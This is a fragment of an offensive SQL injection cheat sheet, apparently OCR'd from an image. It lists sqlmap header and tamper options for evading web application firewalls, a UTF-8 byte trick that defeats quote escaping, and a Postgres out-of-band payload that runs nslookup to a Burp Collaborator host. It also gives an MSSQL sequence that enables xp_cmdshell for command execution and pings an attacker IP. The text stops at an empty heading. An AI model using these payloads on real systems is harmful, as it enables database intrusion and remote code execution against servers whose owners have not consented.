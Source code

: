 ```

# headers
sqlmap --headers="HEADER"
```

## Temper

The ability to create payloads that can bypass waf

- [https://github.com/m4ll0k/Atlas](https://github.com/m4ll0k/Atlas)

Example:

```
--tamper="between,randomcase"
```

## Tricks

Sometimes sites append an extra (’) character in injection. It is possible to bypass this behavior by abusing UTF-8. \xc2 asks for a follow up byte, the decoding of \xc2’ (\xc2\x27) would result in a bypass.

## Blind

Postgres

```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

## [MSSQL] RCE

Code: sql

```sql
-- Check if we are sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');

-- Enable 'Advanced Options'
EXEC sp_configure 'Show Advanced Options', '1';
RECONFIGURE;

-- Enable 'xp_cmdshell'
EXEC sp_configure 'xp_cmdshell', '1';
RECONFIGURE;

-- Ping ourselves
EXEC xp_cmdshell 'ping /n 4 192.168.43.164';
```

## [MSSQL] NetNTLM
